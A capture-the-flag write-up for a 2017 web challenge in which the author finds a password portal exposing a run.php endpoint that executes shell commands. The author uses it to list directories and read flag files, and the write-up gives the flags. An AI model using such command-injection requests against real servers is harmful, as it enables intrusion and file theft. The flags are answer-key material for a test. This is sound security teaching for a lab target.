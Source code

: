 # Password checker (50 points, Web Security)
See if your password is secure! Or whether this portal is secure!

> After the announcement of a catastrophic breach of PICI (Personally Identifiable 
> Cat Information) by Evil Robot Corp, we used Shodan to see if there were any 
> interesting new attack vectors in their IP space and found this weird password 
> checker portal. It looks totally hackable. Can you see if you can exfiltrate 
> files out of the portal?
> 
> This challenge will be discussed at Capture the Flag: Learning to Hack for Fun
> and Profit at the 2017 Grace Hopper Celebration.
> 
> note: there's a minor bug and there are two flags but only one will work. 
> If your flag doesn't work, keep looking for the other one.
> 
> This URL is unique to your team! Don't share it with competitors!
> 
> https://rager-labuc-nubyg-nypot-direc.capturethesquare.com

Visiting the URL and looking at the source, we see an interesting
ajax call executed when we submit a password:

```js
function validate(objForm) {
  let toBeCheckedValue = objForm.elements['password'].value;

  let xmlHttp = new XMLHttpRequest();
  xmlHttp.open('GET', '/run.php?cmd=cat%20../password.txt', false);
  xmlHttp.send(null);
  let actualValue = xmlHttp.responseText;

  if (toBeCheckedValue != actualValue) {
    alert('Passwords don\'t match!');
  } else {
    alert('Password validated!');
  }
}
```

It seems to directly execute commands. However, the output seem to be limited to the
last line of the output of the command. For example, visiting `run.php?cmd=cat%20index.html`
we get the following response:

```
</html>
```

This also means simply listing all files in a directory is not as easy as running `ls`,
since this will only give us the last file in the directory:

`run.php?cmd=ls ../`:
```
xxx_not_a_flag.txt
```

However, with some clever guessing (cough), we find a flag.txt. Unfortunately it spans 2 rows:

`run.php?cmd=cat ../flag.txt`:
```
line 2: flap-31aac7e26de449ee
```

A quick google search later we find the `tr` command, which lets us join multiple lines
to one:

`run.php?cmd=cat ../flag.txt | tr '\n' ' '`
```
line 1: flag-bc0a804287546c09 line 2: flap-31aac7e26de449ee
```

Flag: `flag-bc0a804287546c09`.
